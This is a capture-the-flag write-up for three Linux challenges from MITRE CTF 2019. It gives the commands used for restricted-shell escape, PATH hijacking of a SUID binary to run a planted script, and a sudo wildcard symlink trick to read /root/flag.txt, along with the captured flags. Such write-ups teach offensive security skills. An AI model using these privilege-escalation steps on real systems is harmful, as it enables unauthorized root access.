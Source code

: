 # Linux Solutions
## Table of Contents
1. [Clean Room (50 points)](#Clean-Room)
2. [Getting A Head (100 points)](#Getting-A-Head)
3. [January 8, 2014 (150 points)](#Janaury-8-2014)

# Clean Room
## Problem
> ssh ctf@138.247.13.108

## Process
 - Break out of the restricted shell (rshell)
``` 
ssh ctf@138.247.13.108 -t "bash --noprofile" 
```
 - No netstat available, let's try to look in /proc/net/tcp
   - https://staaldraad.github.io/2017/12/20/netstat-without-netstat/
   - Nothing special found... wompwomp
```
grep -v "rem_address" /proc/net/tcp  | awk 'function hextodec(str,ret,n,i,k,c){
	ret = 0
	n = length(str)
	for (i = 1; i <= n; i++) {
    	c = tolower(substr(str, i, 1))
    	k = index("123456789abcdef", c)
    	ret = ret * 16 + k
	}
	return ret
} {x=hextodec(substr($2,index($2,":")-2,2)); for (i=5; i>0; i-=2) x = x"."hextodec(substr($2,i,2))}{print x":"hextodec(substr($2,index($2,":")+1,4))}'
```
 - Let's see if there's a flag file under root..

![linux50-flag](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux50-cleanroom-flag.jpg)

## Flag
MCA{ieHaisoh4eif2ae}

# Getting A Head
## Problem
> SSH into box

## Process
 - https://reverseengineering.stackexchange.com/questions/3815/reversing-elf-64-bit-lsb-executable-x86-64-gdb
 - readelf -h HackMe
   - Entry point is:

![linux100-entry](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux100-gettingahead-entry.jpg)

 - gdb HackMe
   - break "0x4005450"
   - disas 0x400450, +50

   ![linux100-gdb1](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux100-gettingahead-gdb1.jpg)

   - main() must be at 0x40056
 - It calls the Head command, it is SUID, and I can export the PATH variable
   - Create a new file called 'head' in my own directory
     ```
     - mkdir /homt/ctf/bin
     - echo '#!/bin/bash' > head
     - echo 'ls -lisa /root' >> head
     - chmod 777 head
     - export PATH="/home/ctf/bin:/home/ctf/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:/bin:/usr/games:/usr/local/games"
     ```
    - Verify that head will run in my script

     ![linux100-gdb2](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux100-gettingahead-gdb2.jpg)

     ![linux100-gdb3](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux100-gettingahead-gdb3.jpg)

    - Let's edit head to cat the flag!

    ![linux100-flag](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux100-gettingahead-flag.jpg)

## Flag
MCA{ON5cahqu4ooguaw}

# January 8, 2014
## Problem
> SSH into box

## Process
![linux150-jan8](https://github.com/ryokubaka/CTF-Write-Ups/blob/master/MITRE-CTF-2019/Linux/Images/linux150-jan8.jpg)

 - https://www.exploit-db.com/exploits/37710
 - sudo from January 8, 2014
 - cat /etc/sudoers
 - Following line was already included:
 > ctf ALL=(root) NOPASSWD: /usr/bin/vim /home/ctf/*/*/HackMe2.txt
```
 - mkdir /home/ctf/test
 - mkdir /home/ctf/test/test
 # create symbolic link
   - ln -s /root/flag.txt HackMe2.txt
 - sudo /usr/bin/vim /home/ctf/*/*/HackMe2.txt
```
## Flag
MCA{ohghov1ieli7Eo2}